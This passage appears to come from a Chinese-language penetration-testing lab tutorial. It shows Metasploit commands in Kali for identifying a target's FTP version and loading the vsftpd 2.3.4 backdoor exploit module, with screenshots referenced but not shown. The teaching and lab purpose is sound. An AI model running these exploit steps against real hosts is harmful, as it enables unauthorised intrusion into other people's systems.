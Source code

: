 一切就绪后，再使用 `exploit` 进行主机攻击：

```
# 使用 exploit 命令进行攻击
exploit
```

![图片描述](../imgs/1480006909085.png-wm.png)

由 `exploit` 拿到所要渗透的目标主机的 `ftp` 版本号，接着在实验楼的 Kali 的 MSF 终端中，使用 `search` 搜索相应模块：

```
# 拿到 ftp 版本号后，开始用 search 搜索相应模块
search vsFTPd 
```

![图片描述](../imgs/1480007023430.png-wm.png)

使用 `use` 命令，使用相应的攻击模块：

```
# 使用 use 命令，使用相应模块功能
use exploit/unix/ftp/vsftpd_234_backdoor

```
